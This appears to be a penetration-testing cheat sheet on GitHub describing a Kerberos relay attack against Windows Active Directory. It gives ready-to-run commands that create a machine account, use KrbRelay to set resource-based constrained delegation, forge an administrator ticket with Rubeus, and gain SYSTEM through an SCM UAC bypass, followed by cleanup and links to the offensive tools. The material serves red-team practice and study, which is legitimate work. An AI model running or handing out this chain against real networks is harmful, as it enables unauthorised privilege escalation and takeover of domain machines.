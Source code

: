 # Coercion Attack

## Prerequisites
```
LDAP Signing should not to be enforced
ms-DS-MachineAccountQuota != 0  
```

### Add a computer account
```
Sharpmad.exe MAQ -Action new -MachineAccount <newComputer> -MachinePassword <newPassword>
or
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Get SID of new computer object 
```
$o = ([ADSI]"LDAP://CN=<newComputer>,CN=Computers,DC=<domainComponent>,DC=<domainComponent>").objectSID
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
```

### Modify msDS-AllowedToActOnBehalfOfOtherIdentity by relaying kerberos - Get suitable COM port for kerberos relaying
```
CheckPort.exe
```


### Modify msDS-AllowedToActOnBehalfOfOtherIdentity by relaying kerberos
```
KrbRelay.exe -spn ldap/<domainControllerFqdn> -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd <newComputerSid> -port <port>
```

### Get TGT for local admin
```
Rubeus.exe hash /password:<newPassword>
Rubeus.exe s4u /user:<newComputer> /rc4:<ntHashNewPassword> /impersonateuser:administrator /msdsspn:host/<targetComputerFqdn> /ptt
```

### Get SYSTEM by patching the Win32 API in Service Control Manager 
```
SCMUACBypass.exe
```

### Cleanup service created by SCMUACBypass
```
sc delete <service>
```

## Tools / References
* https://github.com/Kevin-Robertson/Sharpmad
* https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
* https://github.com/cube0x0/KrbRelay
* https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe
* https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1
* https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82 (compile using: cl -DUNICODE SCMUACBypass.cpp advapi32.lib)
* https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9


